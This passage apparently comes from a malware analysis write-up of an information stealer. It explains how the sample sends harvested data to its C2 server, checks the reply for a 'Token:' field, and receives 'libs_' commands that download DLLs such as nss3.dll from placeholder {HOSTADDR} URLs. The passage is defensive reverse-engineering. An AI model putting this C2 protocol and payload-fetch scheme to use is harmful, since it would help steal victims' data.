 ![connect](img/connect.png)

Then it sends the data to the C2 server set before. The content type sent in the request in the form `Content-Type: application/x-www-form-urlencoded; charset=utf-8\r\n\r\n\r\n` and the data sent in the `OptionalHeader` parameter which sent after the request headers. And after sending the data it waits for a response from the server. Then it parses the response for a specific field contain the word `Token:` if it found it continue running if it is not, it exits.

### Install required libraries

It search for the `libs` word in the response in order to prepare a legitimate DLL that are required for the malware to run. the command can be in form:

```plaintext
libs_nss3:http://{HOSTADDR}/{RANDOM_STRING}/nss3.dll
libs_msvcp140:http://{HOSTADDR}/{RANDOM_STRING}/msvcp140.dll libs_vcruntime140:http://{HOSTADDR}/{RANDOM_STRING}/vcruntime140.dll
```

![libs](img/libs.png)

### Get victim machine information
